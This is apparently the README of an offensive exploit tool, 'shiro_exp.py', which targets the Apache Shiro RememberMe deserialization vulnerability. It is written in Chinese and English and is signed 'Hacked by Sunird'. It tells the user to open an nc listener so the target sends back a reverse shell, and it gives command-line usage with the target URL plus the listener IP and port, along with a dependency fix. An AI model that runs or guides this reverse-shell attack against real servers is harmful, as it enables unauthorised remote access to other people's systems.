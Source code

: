 ### Shiro_RememberMe反序列化漏洞利用工具
(目标主机可反向连接到本机)
#### 使用方法

- nc 监听一个端口用于反弹
- 使用shiro_exp



#### Usage

- shiro_exp.py -u [url 目标网址] -lh [localhost 监听器本地IP] -lp [localport 监听端口]

![shiro_3](shiro_3.PNG)

--Hacked by Sunird

#  No module named Crypto.Cipher

```
pip2 install pycryptodome
```
